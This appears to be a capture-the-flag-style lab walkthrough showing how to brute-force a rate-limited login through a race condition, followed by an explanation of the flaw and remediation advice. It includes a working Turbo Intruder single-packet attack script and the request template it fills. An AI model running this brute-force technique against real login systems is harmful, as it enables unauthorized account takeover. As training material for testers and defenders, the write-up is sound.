








# Lab: Bypassing rate limits via race conditions

**Goal:** the login mechanism rate-limits repeated failed attempts, but a race condition lets that limit be bypassed. Brute-force the password for `carlos`, then log in to the admin panel and delete the `carlos` user.

## 1. Confirm the rate limiter

Log in as `wiener:peter` to see the normal flow, then try a handful of wrong passwords for `carlos` in sequence — after a small number of failures the application starts rejecting further attempts outright (rate limited), regardless of whether the next guess would have been correct.





## 2. Capture a login request

Send a `POST /login` request to Burp. The body carries `csrf`, `username`, and `password` as ordinary form fields:

```http
POST /login HTTP/2
Host: <lab-id>.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=<token>&username=wiener&password=peter
```



## 3. Send the request to Turbo Intruder

Right-click the captured login request and choose **Extensions → Turbo Intruder → Send to turbo intruder**.



## 4. Write a single-packet attack script

Set the target username to `carlos`, mark the password field with `%s`, and paste in a script that queues the entire candidate password list into one gate before releasing them all at once:

```python
def queueRequests(target, wordlists):
    # target supports HTTP/2: use Engine.BURP2 with concurrentConnections=1
    # for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2)

    # candidate passwords pulled from the clipboard wordlist
    passwords = wordlists.clipboard

    # queue every login attempt into gate '1' — nothing is sent yet
    for password in passwords:
        engine.queue(target.req, password, gate='1')

    # release every queued request simultaneously, in one TCP packet
    engine.openGate('1')

def handleResponse(req, interesting):
    table.add(req)
```

```text
csrf=<token>&username=carlos&password=%s
```



## 5. Run the attack and identify the successful attempt

Launch the attack. Because every request arrives in the same packet, the rate limiter — which only kicks in *after* observing a sequence of failed attempts — never gets the chance to block any of them; all passwords are tried before the limiter's internal counter can act. One response stands out from the uniform "incorrect credentials" responses (different length/status, here a `302 Found` redirecting to `/my-account?id=carlos`), revealing the correct password.



## 6. Log in as carlos and reach the admin panel

Use the recovered password to log in as `carlos`.



## 7. Delete the carlos user

From the admin panel, delete the `carlos` account to solve the lab.



## Why it works

The rate limiter almost certainly worked by counting failed attempts **sequentially** — reading a counter, checking it against a threshold, incrementing it, and rejecting once the threshold is crossed. A single-packet attack delivers dozens of login attempts to the server at effectively the same instant, faster than that check-increment cycle can serialize them. Every attempt is processed as if it were the very first one, so the limiter's threshold is never reached before all candidate passwords have already been tried.

## Remediation

- Implement rate limiting with an atomic, lock-protected counter (or a dedicated rate-limiting service) rather than an application-level read-then-write counter.
- Rate-limit by source/session at the network or reverse-proxy layer, which serializes requests before they ever reach the vulnerable check-then-increment code path.
- Add exponential backoff and account lockout after a small number of failures, independent of request timing.
- Monitor for bursts of near-simultaneous requests to authentication endpoints as an indicator of this exact technique.
